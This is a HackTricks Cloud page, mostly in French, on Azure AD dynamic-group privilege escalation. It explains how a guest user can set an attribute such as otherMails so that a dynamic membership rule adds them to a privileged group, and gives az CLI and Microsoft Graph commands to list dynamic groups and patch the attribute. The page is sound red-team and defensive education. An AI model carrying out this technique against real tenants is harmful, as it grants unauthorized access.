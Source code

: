 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Les groupes dynamiques** sont des groupes qui ont un ensemble de **règles** configurées et tous les **utilisateurs ou appareils** qui correspondent aux règles sont ajoutés au groupe. Chaque fois qu'un **attribut** d'utilisateur ou d'appareil est **modifié**, les règles dynamiques sont **vérifiées à nouveau**. Et lorsqu'une **nouvelle règle** est **créée**, tous les appareils et utilisateurs sont **vérifiés**.

Les groupes dynamiques peuvent avoir des **rôles Azure RBAC assignés** à eux, mais il **n'est pas possible** d'ajouter des **rôles AzureAD** aux groupes dynamiques.

Cette fonctionnalité nécessite une licence Azure AD premium P1.

## Privesc

Notez qu'en règle générale, tout utilisateur peut inviter des invités dans Azure AD, donc, si une **règle** de groupe dynamique donne des **permissions** aux utilisateurs en fonction des **attributs** qui peuvent être **définis** dans un nouvel **invité**, il est possible de **créer un invité** avec ces attributs et **d'escalader les privilèges**. Il est également possible pour un invité de gérer son propre profil et de modifier ces attributs.

Obtenez les groupes qui permettent l'adhésion dynamique : **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

* **Exemple de règle** : `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Description de la règle** : Tout utilisateur invité avec un e-mail secondaire contenant la chaîne 'security' sera ajouté au groupe

Pour l'e-mail de l'utilisateur invité, acceptez l'invitation et vérifiez les paramètres actuels de **cet utilisateur** dans [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Malheureusement, la page ne permet pas de modifier les valeurs des attributs, donc nous devons utiliser l'API :

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Références

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
